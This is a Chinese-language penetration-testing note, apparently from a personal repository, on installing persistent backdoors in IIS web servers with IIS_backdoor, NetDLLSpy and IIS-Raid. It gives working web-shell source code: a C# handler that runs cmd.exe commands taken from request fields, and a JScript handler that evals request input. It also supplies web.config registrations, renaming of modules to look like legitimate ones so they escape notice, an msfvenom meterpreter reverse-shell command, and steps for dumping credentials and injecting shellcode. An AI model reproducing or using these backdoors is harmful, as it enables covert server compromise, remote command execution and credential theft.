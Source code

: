 #### IIS_Bin_Backdoor
	From:https://github.com/WBGlIl/IIS_backdoor
	IIS_backdoor_dll.dl放入 web 目录的 bin 文件夹中配置 web.config 文件
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <modules>
      <add name="IIS_backdoor" type="IIS_backdoor_dll.IISModule" />
        </modules>
    </system.webServer>
</configuration>
```
	IIS_backdoor_shell.exe执行命令
![image](/assets/Pentest_Note/master/img/584.png)

	使用IISBackdoor太明显，容易被看出是后门，这里对后门改名
![image](/assets/Pentest_Note/master/img/585.png)
![image](/assets/Pentest_Note/master/img/586.png)
![image](/assets/Pentest_Note/master/img/587.png)

	重新生成解决方案，dll放入bin目录，web.config修改为
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <modules>
      		<add name="UrlRoutingModule" type="UrlRoutingModule.IISModule" />
        </modules>
    </system.webServer>
</configuration>

```
	添加完之后会自动在模块中注册好
![image](/assets/Pentest_Note/master/img/588.png)

	执行payload，msf生成raw格式payload，选择shellcode选项，raw文件拖入即可
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f raw -o /var/www/html/1.raw
![image](/assets/Pentest_Note/master/img/589.png)
#### IIS_NETDLL_Spy
	From:https://github.com/Ivan1ee/NetDLLSpy
	原作者提及三种方式，第一种编译代码为DLL新建aspx文件实例化后门类来执行命令，第二种是做httphandler映射可指定一个后缀执行命令保存文件在web服务器上，再读取结果。第三种是使用jsc.exe编译js脚本生成dll，添加映射菜刀连接。
	这里根据原作者的代码，进行了一下简单的修改，修改后的功能为添加httphandler映射指定一个后缀执行命令显示在页面上，不用保存在服务器中再访问。
	代码
```csharp
using System;
using System.Diagnostics;
using System.IO;
using System.Text;
using System.Web;
namespace IsapiModules
{
	public class Handler : IHttpHandler
	{
		public bool IsReusable
		{
			get
			{
				return false;
			}
		}
		public void ProcessRequest(HttpContext context)
		{
			string input = context.Request.Form["InternetInformationService"];  //command
			if (context.Request.Form["microsoft"] == "iis")//do command
			{
				this.cmdShell(input);
			}
		}
		public void cmdShell(string input)
		{
			Process process = new Process();
			process.StartInfo.FileName = "cmd.exe";
			process.StartInfo.RedirectStandardOutput = true;
			process.StartInfo.UseShellExecute = false;
			process.StartInfo.Arguments = "/c " + input;
			process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
			process.Start();
			StreamReader output = process.StandardOutput;
			String result = output.ReadToEnd();
			output.Close();
			output.Dispose();
			HttpContext.Current.Response.Write(result);
		}
	}
}

```
	保存为随意后缀，使用csc编译。
	>C:\Windows\Microsoft.NET\Framework\v2.50727\csc.exe /t:library /r:System.Web.dll -out:C:\inetpub\wwwroot\Bin\SystemIO.dll C:\inetpub\wwwroot\bin\code.cs
![image](/assets/Pentest_Note/master/img/590.png)
	
	Web.config文件添加
	<system.webServer>
 		<handlers> 
			<add name="PageHandlerFactory-ISAPI-2.0-32" path="*.xxx" verb="*" type="IsapiModules.Handler" resourceType="Unspecified" requireAccess="Script" preCondition="integratedMode" /> 
		</handlers> 
	</system.webServer>
![image](/assets/Pentest_Note/master/img/001.png)

	打开IIS管理器，可以看到处理映射管理器中已经添加了模块。
![image](/assets/Pentest_Note/master/img/591.png)

	现在随意访问个xxx后缀的文件
![image](/assets/Pentest_Note/master/img/592.png)
	
	带参数访问
	microsoft=iis&InternetInformationService=net user
![image](/assets/Pentest_Note/master/img/593.png)
![image](/assets/Pentest_Note/master/img/594.png)

	第三种连接菜刀，这里也对代码修改了一下。
```javascript
import System; 
import System.Web; 
import System.IO; 
package IsapiModule
{ 
	public class Handler implements IHttpHandler
	{ 
		function IHttpHandler.ProcessRequest(context : HttpContext)
		{ 
			context.Response.Write("404 Not Found") 
			var I = context; 
			var Request = I.Request; 
			var Response = I.Response; 
			var Server = I.Server; 
			eval(context.Request["Internet"]); //pass
		} 
		function get IHttpHandler.IsReusable() : Boolean{ return true}
	}
}

```
	使用jsc编译
	>C:\Windows\Microsoft.NET\Framework\v4.0.30319\jsc.exe /t:library -out:C:\inetpub\wwwroot\Bin\IsapiModule.Handler.dll C:\inetpub\wwwroot\bin\code.js
![image](/assets/Pentest_Note/master/img/595.png)
	
	编辑web.config，添加映射，这里指定的后缀是.iis
	<system.webServer> 
	<modules runAllManagedModulesForAllRequests="true"/> <directoryBrowse enabled="true"/>
 	<staticContent>
	 <mimeMap fileExtension=".json" mimeType="application/json" /> 
	 </staticContent> 
 	<handlers>
	 <add name="PageHandlerFactory-ISAPI-2.0-32-1" path="*.iis" verb="*" type="IsapiModule.Handler" preCondition="integratedMode"/>
	 </handlers>
	</system.webServer>
	已自动加入了映射。现在随便访问个iis后缀的文件。

![image](/assets/Pentest_Note/master/img/596.png)
![image](/assets/Pentest_Note/master/img/597.png)

	可使用菜刀直接连接
![image](/assets/Pentest_Note/master/img/598.png)
![image](/assets/Pentest_Note/master/img/599.png)

#### IIS_RAID
	From:https://github.com/0x09AL/IIS-Raid
	在vs2019下编译
	在Functions.h中修改连接密码，passfile是dump下来的密码保存的位置，com_header是后门和服务器通信的请求头。
![image](/assets/Pentest_Note/master/img/600.png)

	打开项目修改完你的密码，直接ctrl+B生成解决方案即可(这里生成的是release版本)
	Dll传到服务器，改个名字，执行添加模块
	>C:\Windows\system32\inetsrv\APPCMD.EXE install module /name:IsapiDotNet /image:"c:\windows\system32\inetsrv\IsapiDotNet.dll" /add:true
![image](/assets/Pentest_Note/master/img/601.png)

	在模块中可以看到已经存在了
![image](/assets/Pentest_Note/master/img/602.png)

	远程连接
	>python3 iis_controller.py --url http://192.168.0.98 --password thisismykey
	执行命令的方式是
	>cmd +命令
![image](/assets/Pentest_Note/master/img/603.png)

	Dump命令可以dump下来IIS站点的登录的信息，保存在设置的位置。
	Inject可以执行shellcode
	Cs/msf生成raw格式的shellcode
	>inject 位置
![image](/assets/Pentest_Note/master/img/604.png)